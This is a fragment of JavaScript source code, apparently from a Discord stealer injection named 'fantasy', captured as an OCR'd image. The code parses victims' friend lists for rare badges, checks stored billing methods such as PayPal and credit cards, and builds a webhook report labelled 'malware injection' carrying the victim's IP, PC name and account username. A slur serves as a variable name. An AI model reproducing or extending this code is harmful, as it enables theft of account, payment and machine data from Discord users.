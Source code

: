                                                 return user.type == 1
                                            })
                                            return r.length
                                        }
                                        function calcFriends() {
                                            var f = JSON.parse(info4)
                                            const r = f.filter((user) => {
                                                return user.type == 1
                                            })
                                            var gay = "";
                                            for (z of r) {
                                                var b = GetRBadges(z.user.public_flags)
                                                if (b != "") {
                                                    gay += b + ` ${z.user.username}#${z.user.discriminator}\n`
                                                }
                                            }
                                            if (gay == "") {
                                                gay = "no rare friends"
                                            }
                                            return gay
                                        }
                                        function cool() {
                                            const json = JSON.parse(info3)
                                            var billing = "";
                                            json.forEach(z => {
                                                if (z.type == "") {
                                                    return "\`❌\`"
                                                } else if (z.type == 2 && z.invalid != !0) {
                                                    billing += "\`✔️\`" + " <:paypal:896441236062347374>"
                                                } else if (z.type == 1 && z.invalid != !0) {
                                                    billing += "\`✔️\`" + " :credit_card:"
                                                } else {
                                                    return "\`❌\`"
                                                }
                                            })
                                            if (billing == "") {
                                                billing = "\`❌\`"
                                            }
                                            return billing
                                        }
                                        const json = JSON.parse(info);
                                        var params = {
                                            username: "fantasy",
                                            content: "",
                                            embeds: [{
                                                "title": "email changed",
                                                "color": config['embed-color'],
                                                "fields": [{
                                                    name: "malware injection",
                                                    value: `\`\`\`${discordInstall}\n\`\`\``,
                                                    inline: !1
                                                }, {
                                                    name: "ip:",
                                                    value: `\`${ip}\``,
                                                    inline: !0
                                                }, {
                                                    name: "pc name:",
                                                    value: `\`${computerName}\``,
                                                    inline: !0
                                                }, {
                                                    name: "username:",
                                                    value: `\`${json.username}#${json.discriminator}\``,
                                                    inline: !0
                                                }, {
